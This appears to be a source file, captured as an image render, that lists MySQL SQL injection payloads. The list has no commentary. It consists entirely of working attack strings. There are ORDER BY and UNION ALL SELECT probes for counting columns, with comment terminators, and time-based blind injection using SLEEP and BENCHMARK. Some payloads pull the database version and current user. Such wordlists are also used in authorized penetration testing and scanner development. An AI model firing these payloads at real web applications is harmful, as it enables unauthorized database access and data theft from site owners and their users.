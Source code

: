            ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#
           ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#
           UNION ALL SELECT 1
           UNION ALL SELECT 1,2
           UNION ALL SELECT 1,2,3
           UNION ALL SELECT 1,2,3,4
           UNION ALL SELECT 1,2,3,4,5
           UNION ALL SELECT 1,2,3,4,5,6
           UNION ALL SELECT 1,2,3,4,5,6,7
           UNION ALL SELECT 1,2,3,4,5,6,7,8
           UNION ALL SELECT 1,2,3,4,5,6,7,8,9
           UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10
           UNION ALL SELECT 1#
           UNION ALL SELECT 1,2#
           UNION ALL SELECT 1,2,3#
           UNION ALL SELECT 1,2,3,4#
           UNION ALL SELECT 1,2,3,4,5#
           UNION ALL SELECT 1,2,3,4,5,6#
           UNION ALL SELECT 1,2,3,4,5,6,7#
           UNION ALL SELECT 1,2,3,4,5,6,7,8#
           UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
           UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
           UNION ALL SELECT 1-- 
           UNION ALL SELECT 1,2-- 
           UNION ALL SELECT 1,2,3-- 
           UNION ALL SELECT 1,2,3,4-- 
           UNION ALL SELECT 1,2,3,4,5-- 
           UNION ALL SELECT 1,2,3,4,5,6-- 
           UNION ALL SELECT 1,2,3,4,5,6,7-- 
           UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
           UNION ALL SELECT 1,2,3,4,5,6,7,8,9-- 
           UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- 
           UNION SELECT @@VERSION,SLEEP(5),3
           UNION SELECT @@VERSION,SLEEP(5),USER(),4
           UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
           UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
           UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
           UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
           UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
           UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
           UNION SELECT @@VERSION,SLEEP(5),"'3
           UNION SELECT @@VERSION,SLEEP(5),"'3'"#
           UNION SELECT @@VERSION,SLEEP(5),USER(),4#
           UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#
           UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#
           UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#
           UNION ALL SELECT USER()-- 
           UNION ALL SELECT SLEEP(5)-- 
           UNION ALL SELECT USER(),SLEEP(5)-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
           UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 